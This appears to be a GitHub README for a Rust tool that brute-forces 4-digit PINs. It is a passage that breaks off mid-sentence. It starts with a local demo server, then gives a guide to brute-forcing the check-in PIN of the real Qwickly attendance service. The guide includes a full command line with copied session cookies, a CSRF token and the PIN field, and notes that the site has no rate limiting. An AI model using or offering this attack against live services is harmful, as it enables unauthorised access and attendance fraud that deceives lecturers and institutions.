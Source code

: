 # Crack Remote Pin
Rust example of cracking a 4-digit pin on a remote server.  

The cracking HTTP requests are executed asynchronously, so the futures will take some time to build up to 10000 in a vector and then executed at once roughly (there are probably better ways to do this).  

1. Start the pin server
```
cd pin_server
cargo run
```

2. Crack the pin on the running server
```
cd cracker
cargo run
```

## Qwickly Attendance Crack
The qwickly attendance checker asks for a 4-digit pin, which a lecturer will share with the class on a screen. Luckily qwickly don't have any spam-defense mechanisms at all, I can make 1000 POST requests with different pins in a short space of time without it preventing it.

The request needs to be crafted properly though to post without hitting an error:

1. Visit Qwickly attendance tracker page and just make a request for pin "0001", have "network" tab of browser tools open and "copy as cURL" the request

2. Take the required fields out of that and use it in the command make sure to replace "0001" with "{pin}" in the data content, for example: 

```
qwickly_cracker --referer 'https://www.qwickly.tools/attendance/takerecord/?code=BuYAp0o5b11JNFonnZtFrqWxYX2xAI3B&' --user-agent 'Mozilla/5.0 (X11; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0' --cookie 'AWSALB=AoMLFg/sY5unylBB4wo1UuftVvB74l2QvqGuwUZZzkBBPD+04k7cu0Py692RPzeMSdmMSJxUqKhsFWj8X162GHWtMWjr9IPAyE8FTMNXC98aawjJqkylnkNLhKeb; AWSALBCORS=AoMLFg/sY5unylBB4wo1UuftVvB74l2QvqGuwUZZzkBBPD+04k7cu0Py692RPzeMSdmMSJxUqKhsFWj8X162GHWtMWjr9IPAyE8FTMNXC98aawjJqkylnkNLhKeb; sessionid=if3l9orgzd7ydeah0baqn7ynlg2anp1w' --data-no-pin 'csrfmiddlewaretoken=MpUgZaDVxhfOq41BuGIrIGHXzUz8pfWrLiApCa7XM7OTISwq50dx7hvLQnvYiTZV&check_in_pin={pin}&student_check_in=Check+In&check_in_id='
```

3. The default pin range start and end is from 0000 to 9999 inclusive. The default `pin_chunk_size` is 500, meaning that 500 pin requests will be gathered in a futures 
